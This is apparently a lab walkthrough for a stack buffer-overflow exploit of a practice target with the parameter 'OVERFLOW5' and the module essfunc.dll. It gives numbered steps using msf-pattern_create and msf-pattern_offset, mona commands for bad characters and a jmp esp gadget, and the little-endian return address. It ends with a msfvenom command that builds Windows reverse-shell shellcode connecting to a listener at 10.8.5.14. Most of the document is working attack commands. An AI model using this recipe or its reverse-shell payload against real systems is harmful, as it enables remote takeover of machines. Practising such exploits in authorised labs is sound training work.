 We have the exploit  and we already know the vulnrable parameter...


We just need to do some of the following steps to exploit this module...


1. Find crash byte on vulnrable parameter 'OVERFLOW5 '

2. When program crash Note the valu of crah byte in our case 500

3. Now we have the crash byte but we need exact cash point where program crashed
   To do that we have to create a hex pattern with msf which is located in kali
      /usr/bin/msf-pattern_create -l 500 

4. After sending the payload we need to find the eip after crash in this exploit		346B4134  Note it.

5. Now we need to get offset value which is exact value where program crashed...
      /usr/bin/msf-pattern_offset -l 500  -q 356B4134

6. Then find the bad char to do that we have to use mona to create working directry first then we have to define a array with help of mona again !mona -bytearry '\x00'

7. Copy the array where we set directory and save as badchar in program

8. Varify the badchar by using mona if exist do the same step again !mona bytearray -b '\x00\x16\x2f\xf4\xfd'  these are bad char we found. and again create a array with help of imnt-dbg.

9. When we varify there is no bad char find out jump esp to do that we've to use !mona modules to check which module is vulnrable when we see FALSE in every coloumn that mean program is vulnrable

10. Now lets find out the jmpesp address  !mona find -s "\xff\xe4" -m essfunc.dll      by this command essfunc.dll is vulnrable in our case.

11. This will retun module address copy it and wrint in little endian form because that how program execute .

#jump esp location = 625011af
#jumpesp="\xaf\x11\x50\x62"



12. We are ready to genrate the shell code except badchar..
    msfvenom -p windows/shell_reverse_tcp LHOST=10.8.5.14 LPORT=1234 -b '\x00\x16\x2f\xf4\xfd' -f c

execute it before start listner .....

we got the shell....
